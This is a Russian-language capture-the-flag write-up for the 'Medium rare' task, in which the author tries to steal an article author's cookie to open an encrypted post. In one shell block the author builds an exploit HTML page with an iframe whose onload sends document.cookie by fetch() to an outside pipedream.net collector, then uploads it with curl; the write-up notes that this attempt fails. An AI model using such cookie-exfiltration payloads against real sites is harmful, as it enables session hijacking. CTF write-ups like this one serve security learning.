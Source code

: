 # Medium rare: Write-up

Заходим на сайт и видим, что сайт стал новым. Читаем единственный доступный пост и узнаём об изменениях в бекенде, конкурсе статей с критериями от итогового сочинения и подарке. Видимо, нужно как-то открыть зашифрованную часть этой статьи, чтобы забрать флаг.

Звучит подозрительно похоже на прошлогодний [Medium](https://github.com/teamteamdev/ugractf-2024-school/tree/production/tasks/medium), но есть нюансы. Проверим, так ли хорош новый бекенд, и как там залатали дыру с прошлого раза.

Попытаемся создать статью:

![](./writeup/new.png)

После создания статьи нам всё так же дают две ссылки и кладут куку с паролем для просмотра статьи:

![](./writeup/created.png)

Пароль верен только для конкретной статьи, механизм работы с куками такой же, как было в Medium, а без кук и пароля статья по прежнему не открывается:

![](./writeup/incognito.png)

Нужно всё так же стащить куку автора анонса, но теперь конкурсные работы нужно отправлять напрямую.

Анонс просит присылать только статьи, опубликованные на Poster. Но этот знак меня не остановит! *Можно ли отправить работу с другого сайта?*

![](./writeup/pipedream-send.png)

После отправки фейковой статьи, получаем обнадёживающий текст…

![](./writeup/submitted.png)

…который на самом деле является обманкой — кто-то ходит по нашей ссылке сразу, а не через много дней!

![](./writeup/pipedream-result.png)

И кук тут, конечно же, нет.

Может быть, взять [Yankbox](../yankbox)?

```shell
$ cat /tmp/exploit.html
<iframe src="https://mediumrare.q.2025.ugractf.ru/zrwvtcqhcjvjugnp/c3a2210ce5a3a970782e606e4b7b22f9/"
 onload="fetch(`https://eoyiklz399i8p9x.m.pipedream.net/?${this.contentDocument.cookie}`);">
$ curl -F file=@/tmp/exploit.html https://yankbox.q.2025.ugractf.ru/dxathg8v6c5d4qz3
https://yankbox.q.2025.ugractf.ru/dxathg8v6c5d4qz3/files/HTOtZy26jU.html
```

Не работает, браузер не даёт залезать внутрь поддомена.

![](./writeup/yankbox.png)
